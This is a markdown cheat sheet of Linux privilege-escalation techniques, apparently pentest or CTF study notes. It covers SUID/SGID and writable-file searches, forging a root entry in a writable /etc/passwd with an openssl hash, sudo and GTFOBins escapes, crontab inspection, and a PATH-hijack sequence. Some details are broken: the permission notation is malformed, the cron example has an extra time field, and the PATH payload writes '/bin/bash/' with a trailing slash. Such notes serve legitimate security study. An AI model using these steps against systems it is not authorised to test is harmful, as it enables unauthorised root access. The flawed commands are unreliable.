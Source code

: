 # Linux privilege escalation

## Table of Content
- [Abusing SUID/GUID files](#abusing-suidguid-files)
- [Finding writeable files](#finding-writeable-files)
- [Exploiting a writeable /etc/passwd](#exploiting-a-writeable-etcpasswd)
- [Escaping executables](#escaping-executables)
- [Exploiting Crontab](#exploiting-crontab)
- [Exploiting the PATH variable](#exploiting-the-path-variable)
- [Checking for kernel exploits](#checking-for-kernel-exploits)
- [Further learing](#further-learing)

## Abusing SUID/GUID files

- SUID: `rws-rwx-rwx`
- GUID: `rwx-rws-rwx`

```bash
find / -perm /4000 -type f 2>/dev/null     # SUID
find / -perm /u=s  -type f 2>/dev/null     # SUID
find / -perm /2000 -type f 2>/dev/null     # SGID
find / -perm /g=s  -type f 2>/dev/null     # SGID
find / -perm /6000 -type f 2>/dev/null     # SGID + SUID
find / -perm /u=s,g=s -type f 2>/dev/null  # SGID + SUID
```


## Finding writeable files

```
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```


## Exploiting a writeable /etc/passwd

- Line format
```
username:password:uid:gid:info:home:shell
```

- Example line 

```
admin:x:0:0:root:/root:/bin/bash
```

- Generate password hash 

```
openssl passwd -1 -salt [salt] [password]
```

## Escaping executables

```bash
sudo -l
```

[https://gtfobins.github.io/](https://gtfobins.github.io/)

## Exploiting Crontab

- View scheduled cron jobs

```
cat /etc/crontab
```

- Cronjob format

| keyword | meaning                           |
| :------ | :-------------------------------- |
| \#      | ID                                |
| m       | Minute                            |
| h       | Hour                              |
| dom     | Day of the month                  |
| mon     | Month                             |
| dow     | Day of the week                   |
| user    | What user the command will run as |
| command | What command should be run        |


**\# m h dom mon dow user command**

```
17 * 1 * * * root cd / && run-parts --report /etc/cron.hourly
```

## Exploiting the PATH variable

> Rewrite the PATH variable to point to an imitating executable that is being called within a script with SUID privileges.

```bash
echo $PATH
cd /tmp
echo "/bin/bash/" > ls
chmod +x ls
export PATH=/tmp:$PATH
```


## Checking for kernel exploits

- Crossmatching both of these for a suitable exploit

```
uname -a
lsb_release -a
```


## More Info

* [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

